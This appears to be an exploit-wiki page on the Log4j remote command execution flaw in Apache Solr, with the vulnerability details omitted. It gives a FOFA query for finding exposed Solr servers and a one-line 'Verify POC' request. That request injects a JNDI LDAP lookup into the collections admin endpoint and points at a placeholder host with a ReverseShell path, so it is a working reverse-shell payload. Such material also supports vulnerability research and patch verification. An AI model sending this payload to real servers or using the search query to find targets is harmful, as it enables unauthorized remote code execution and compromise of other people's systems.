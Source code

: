 ```yaml
---
title: Apache Solr Log4j component Remote command execution vulnerability
---
```

# Apache Solr Log4j component Remote command execution vulnerability

## Vulnerability Description

Apache Solr Log4j component Remote command execution vulnerability, details are omitted

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639122271639-51bacb0d-9e88-4234-87c2-cb374d1b98a3.png)

Verify POC

```go
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639122349239-d4352e9a-59b4-4562-afff-6a529d398d0e.png)
